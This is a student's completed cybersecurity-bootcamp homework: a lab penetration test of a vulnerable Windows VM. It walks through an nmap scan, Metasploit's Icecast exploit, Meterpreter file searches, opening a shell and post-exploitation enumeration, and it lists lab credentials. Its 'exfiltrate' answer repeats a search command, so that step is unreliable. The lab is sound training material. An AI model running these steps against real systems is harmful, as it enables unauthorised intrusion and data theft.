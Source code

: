 ﻿


> Written with [StackEdit](https://stackedit.io/).
> ## Homework: Penetration Test Engagement

In this activity, you will play the role of an independent penetration tester hired by GoodCorp Inc. to perform security tests against their CEO’s workstation.

- The CEO claims to have passwords that are long and complex and therefore unhackable.

- You are tasked with gaining access to the CEO's computer and using a Meterpreter session to search for two files that contain the strings `recipe` and `seceretfile`.

- The deliverable for this engagement will be in the form of a report labeled `Report.docx`.

#### Setup 

- Before you begin, we'll need to start the Icecast server to emulate the CEO's computer. 
  - Log onto the DVW10 machine (credentials `IEUser:Passw0rd!`) and wait for the Icecast application to popup.
  - Then click `Start Server`. 

#### Reminders

- A penetration tester's job is not just to gain access and find a file. Pentesters need to find all vulnerabilities, and document and report them to the client. It's quite possible that the CEO's workstation has multiple vulnerabilities.
 
- If a specific exploit doesn't work, that doesn't necessarily mean that the target service isn't vulnerable. It's possible that something could be wrong with the exploit script itself. Remember, not all exploit scripts are right for every situation.
 
#### Scope
 
- The scope of this engagement is limited to the CEO's workstation only. You are not permitted to scan any other IP addresses or exploit anything other than the CEO's IP address.
 
- The CEO has a busy schedule and cannot have the computer offline for an extended period of time. Therefore, denial of service and brute force attacks are prohibited. 
 
- After you gain access to the CEO’s computer, you may read and access any file, but you cannot delete them. Nor are you allowed to make any configurations changes to the computer.
 
- Since you've already been provided access to the network, OSINT won't be necessary.
 
#### Lab Environment
 
For this week's homework, please use the following VM setup:
 
- Attacking machine: Kali Linux `root:toor`
- Target machine: DVW10 `IEUser:Passw0rd!`

**NOTE**: You will need to login to the **DVW10** VM and start the `icecast` service prior to beginning this activity using the following procedure:

- After logging into DVW10, type "icecast" in the Cortana search box and hit **Enter**.
- The icecast application will launch.
- Click on **Start Server**.
- You are now ready to being the activity.

#### Deliverable

Once you complete this assignment, submit your findings in the following document: 

- [Report.docx](https://github.com/H-JAVID/JAVID_UCB-Submitted-Home-work/blob/main/WEEK17-Homework/Deliverable-REPORT.docx.md)
 
### Instructions

You've been provided full access to the network and are getting ping responses from the CEO’s workstation.
 
1. Perform a service and version scan using Nmap to determine which services are up and running:

    - Run the Nmap command that performs a service and version scan against the target.

      > Answer: `nmap -sS -O -sV 192.168.0.20 `
 ![https://github.com/H-JAVID/JAVID_UCB-Submitted-Home-work/blob/main/WEEK17-Homework/17-Hw-IMAGES/b1.jpg](C:%5CUsers%5Chjavid%5CPictures%5CForHW-15%5C16-HW)
 
2. From the previous step, we see that the Icecast service is running. Let's start by attacking that service. Search for any Icecast exploits:
 
   - Run the SearchSploit commands to show available Icecast exploits.
  
     > Answer: `searchsploit -t Icecast windows`
![b2](C:%5CUsers%5Chjavid%5CPictures%5CForHW-15%5C16-HW)
3. Now that we know which exploits are available to us, let's start Metasploit:
 
   - Run the command that starts Metasploit:
    
     > Answer: `msfconsole`
 ![b3](C:%5CUsers%5Chjavid%5CPictures%5CForHW-15%5C16-HW)
 
4. Search for the Icecast module and load it for use.
 
   - Run the command to search for the Icecast module:
     
     > Answer: msf5 > `search Icecast`
 ![b4](C:%5CUsers%5Chjavid%5CPictures%5CForHW-15%5C16-HW)

   - Run the command to use the Icecast module:

       **Note:** Instead of copying the entire path to the module, you can use the number in front of it.

     > Answer: msf5 > `use 0`
 ![b4-note](C:%5CUsers%5Chjavid%5CPictures%5CForHW-15%5C16-HW)
 
5. Set the `RHOST` to the target machine.
 
   - Run the command that sets the `RHOST`: 
      
     > Answer:  `set RHOSTS 192.168.0.20`
 ![b5](C:%5CUsers%5Chjavid%5CPictures%5CForHW-15%5C16-HW)
6. Run the Icecast exploit.
 
   - Run the command that runs the Icecast exploit.
      
     > Answer: `exploit`
 ![b6-1](C:%5CUsers%5Chjavid%5CPictures%5CForHW-15%5C16-HW)
   - Run the command that performs a search for the `secretfile.txt` on the target.
      
     > Answer: `search -f *secret*.txt`
 ![b6-2](C:%5CUsers%5Chjavid%5CPictures%5CForHW-15%5C16-HW) 
 
 7. You should now have a Meterpreter session open.
 
    - Run the command to performs a search for the `recipe.txt` on the target:

      > Answer:  `search -f *recipe.txt*`
 ![b7-1](C:%5CUsers%5Chjavid%5CPictures%5CForHW-15%5C16-HW)
 
    - **Bonus**: Run the command that exfiltrates the `recipe*.txt` file:


      > Answer:  `search -f *recipe*.txt*`
 ![b7-2](C:%5CUsers%5Chjavid%5CPictures%5CForHW-15%5C16-HW)
 - **Bonus2(By-me)**:
 - ![meterpreter>shell](C:%5CUsers%5Chjavid%5CPictures%5CForHW-15%5C16-HW)
 - ![Drink-Recipe](C:%5CUsers%5Chjavid%5CPictures%5CForHW-15%5C16-HW)
 - ![Password.txt](C:%5CUsers%5Chjavid%5CPictures%5CForHW-15%5C16-HW)
 - ![Secretfile](C:%5CUsers%5Chjavid%5CPictures%5CForHW-15%5C16-HW)


8. You can also use Meterpreter's local exploit suggester to find possible exploits.
  > Answer: meterpreter > `run post/multi/recon/local_exploit_suggester`
 ![b8](C:%5CUsers%5Chjavid%5CPictures%5CForHW-15%5C16-HW)
   - **Note:** The exploit suggester is just that: a suggestion. Keep in mind that the listed suggestions may not include all available exploits.

 
#### Bonus
  
 
A. Run a Meterpreter post script that enumerates all logged on users.

  > Answer: meterpreter > `run post/windows/gather/enum_logged_on_users`
 ![Bonus-A](C:%5CUsers%5Chjavid%5CPictures%5CForHW-15%5C16-HW)
     
B. Open a Meterpreter shell and gather system information for the target.
 
  > Answer:  meterpreter > `shell `![Bonus-B-1(shell)](C:%5CUsers%5Chjavid%5CPictures%5CForHW-15%5C16-HW)
     
  > Answer:  meterpreter > `sysinfo `![Bonus-sysinfo](C:%5CUsers%5Chjavid%5CPictures%5CForHW-15%5C16-HW)

C. Run the command that displays the target's computer system information:

   > Answer: `systeminfo`
![Bonus-c](C:%5CUsers%5Chjavid%5CPictures%5CForHW-15%5C16-HW)


---

&copy; 2020 Trilogy Education Services, a 2U Inc Brand.   All Rights Reserved.

